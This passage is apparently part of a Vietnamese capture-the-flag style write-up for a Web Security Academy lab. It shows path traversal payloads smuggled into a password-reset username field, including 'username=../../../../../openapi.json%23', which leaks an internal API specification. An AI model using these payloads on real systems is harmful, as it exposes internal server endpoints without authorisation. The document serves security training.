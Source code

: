     - ```Username=administrator%3F (?)``` --> Lỗi tương tự

-->Path bị lỗi --> Gợi ý username được nhét vào URL path của request nội bộ

    • Username=./administrator --> Bình thường

-->Giữ nguyên segment administrator

    • Username=../administrator --> Lỗi

--> Cố gắng path traversal ngược lên thư mục cha sau đó đọc file ```"openapi.json"```

-->Giờ ta traversal cho đến khi thoát khỏi API root (về ~)

![alt text](./img/lab5-1.png)

==>Đã về root --> Ta sẽ thay administrator thành openapi.json

```bash
POST /forgot-password HTTP/2
Host: 0a24002d04ac4bdf80c28a1300700062.web-security-academy.net
Cookie: session=dftzj227liUkkDGpFsU0pNInIw9LWX7Z
Content-Length: 77
Content-Type: x-www-form-urlencoded
csrf=IZ8HJUQ5roI5jKwCtC6XdbqF0e9y9khQ&username=../../../../../openapi.json%23
```

```bash
{
  "error": "Unexpected response from API server:\n{\n  \"openapi\": \"3.0.0\",\n  \"info\": {\n    \"title\": \"User API\",\n    \"version\": \"2.0.0\"\n  },\n  \"paths\": {\n    \"/api/internal/v1/users/{username}/field/{field}\": {\n      \"get\": {\n        \"tags\": [\n          \"users\"\n        ],\n        \"summary\": \"Find user by username\",\n        \"description\": \"API Version 1\",\n        \"parameters\": [\n          {\n            \"name\": \"username\",\n            \"in\": \"path\",\n            \"description\": \"Username\",\n            \"required\": true,\n            \"schema\": {\n        ..."
}
```

--> Ta thấy response có chứa path xử lý của server-side:

```bash
/api/internal/v1/users/{username}/field/{field}\
```

